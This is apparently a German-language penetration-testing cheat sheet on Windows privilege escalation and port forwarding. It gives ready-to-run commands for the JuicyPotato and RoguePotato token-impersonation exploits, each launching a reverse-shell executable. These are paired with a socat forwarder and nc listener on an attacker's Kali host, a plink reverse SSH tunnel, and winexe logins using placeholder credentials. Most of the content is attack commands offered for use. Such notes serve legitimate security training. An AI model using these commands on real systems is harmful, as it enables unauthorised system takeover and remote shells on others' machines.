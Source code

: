 #### JuicyPotato

Wenn Shell via Service Account ausgeführt wird und bestimmte Privilegien gesetzt sind, können die Rechte ausgweitet werden:

```bash
whoami /priv
#SeImpersonate oder SeAssignPrimaryToken enabled?
JuicyPotato.exe -l 1337 -p C:\PathToShell\reverse.exe -t * -c {CLSID aus JuicyPotato Github}
```

#### Rogue Potato

Ähnlich wie JuicyPotato, jedoch aktueller.

```bash
#Auf Kali einen Forwarder starten
sudo socat tcp-listen:135,reuseaddr,fork tcp:<WIN-IP>:9999
#Auf Kali nc Listener starten
nc -lvnp
#Auf Windows RoguePotato starten
RoguePotato.exe -r <KALI-IP> -l 9999 -e "C:\PathToShell\reverse.exe"
```

#### PrintSpoofer

https://github.com/itm4n/PrintSpoofer

## Port Forwarding

Unter Umständen ist ein Service nur lokal erreichbar. Dies kann mittels Port Forwarding (und plink) umgangen werden.

```bash
#Ursprünglicher Befehl, welcher nicht durchgeht (winexe nutzt Port 445)
winexe -U 'USER%PASS' //WinIP cmd.exe

#SMB Server auf Kali beenden, z.B.
pkill --full smbserver.py
#Sicherstellen, dass der root User sich per SSH verbinden darf
#PermitRootLogin yes setzen und evtl. ssh neustarten
vim /etc/ssh/sshd_config 
#Auf Windows (Remote Port 445 auf Local Port 445 leiten):
plink.exe root@KALI-IP -R 445:127.0.0.1:445
#Auf Kali
winexe -U 'USER%PASS' //127.0.0.1 cmd.exe

```

## Zusätzliche Infos

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---incorrect-permissions-in-services